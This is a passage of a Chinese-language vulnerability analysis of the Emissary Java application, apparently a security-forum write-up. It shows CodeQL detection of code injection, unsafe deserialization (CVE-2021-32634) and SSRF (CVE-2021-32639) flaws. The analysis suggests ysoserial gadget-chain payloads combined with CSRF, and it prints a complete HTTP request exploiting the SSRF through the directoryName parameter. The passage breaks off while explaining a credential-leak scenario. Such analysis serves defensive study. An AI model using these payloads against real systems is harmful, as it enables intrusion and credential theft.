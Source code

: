 可将这段代码添加到CodeQL默认的代码注入规则文件`ql/java/ql/src/experimental/Security/CWE/CWE-094/ScriptInjection.ql`中，再运行查询，就能检测出该漏洞了，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4e651d58385479ff0c515b87bc379fed6b1c44ea.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4e651d58385479ff0c515b87bc379fed6b1c44ea.png)

### Unsafe deserialization (CVE-2021-32634)

该漏洞发生在接口`/emissary/WorkSpaceClientEnqueue.action`，代码如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2be03a987331d2f5f8183814b840b866cacc01f2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2be03a987331d2f5f8183814b840b866cacc01f2.png)

可以看到参数`WorkSpaceAdapter.WORK_BUNDLE_OBJ`在第52、53行被读取并反序列化。而且emissary依赖了`commons-collections-3.2.1`，所以可以使用`ysoserial`生成`CC`链的payload进行反序列化攻击。由于这个接口也是登录后才可调用，因此可配合CSRF进行利用。

该漏洞使用CodeQL的默认规则集可以检测出来，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8831756f6b62fd6f3dae4a73f4e0d3141a93ece2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8831756f6b62fd6f3dae4a73f4e0d3141a93ece2.png)

### Server-side request forgery (CVE-2021-32639)

这里有两个接口存在SSRF漏洞，分别是`/emissary/RegisterPeer.action`和`/emissary/AddChildDirectory.action`。

这两处SSRF漏洞，使用CodeQL的默认规则集可以检测出来，如图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-97067d353aa590fe948620760a95b79dca2a0e63.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-97067d353aa590fe948620760a95b79dca2a0e63.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5059977c245d1499ec23d49dcb268afb9e96544.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5059977c245d1499ec23d49dcb268afb9e96544.png)

#### 接口 /RegisterPeer.action

漏洞输入点在`directoryName`参数。

可构造payload如下：

```php
POST /emissary/RegisterPeer.action HTTP/1.1
Host: 127.0.0.1:8001
Content-Type: application/x-www-form-urlencoded

directoryName=foo.bar.baz.http://172.20.10.3:5000/&targetDir=http://localhost:8001/DirectoryPlace
```

SSRF一般用于未授权访问、扫描或攻击目标的内部网络。但是这里@pwntester根据emissary的实际情况给出了另一种攻击场景。通过分析代码发现，emissary使用Apache的HttpClient库来向内部网络发起http请求，它从自身配置中获取身份凭证，并将身份凭证设置到名为`CRED_PROV`的凭证提供者对象中，然后带着这个身份凭证向目标服务发起Http请求。在这个过程中，并没有配置emissary客户端使用哪种身份认证机制(`HTTP Basic Authentication`或`HTTP Digest Authentication`)，所以判断：使用哪种身份认证机制应该是根据HTTP服务器的响应来决定的。具体代码如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eb06f225a4a255a01f52d2e11d19b3198aacbe69.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eb06f225a4a255a01f52d2e11d19b3198aacbe69.png)
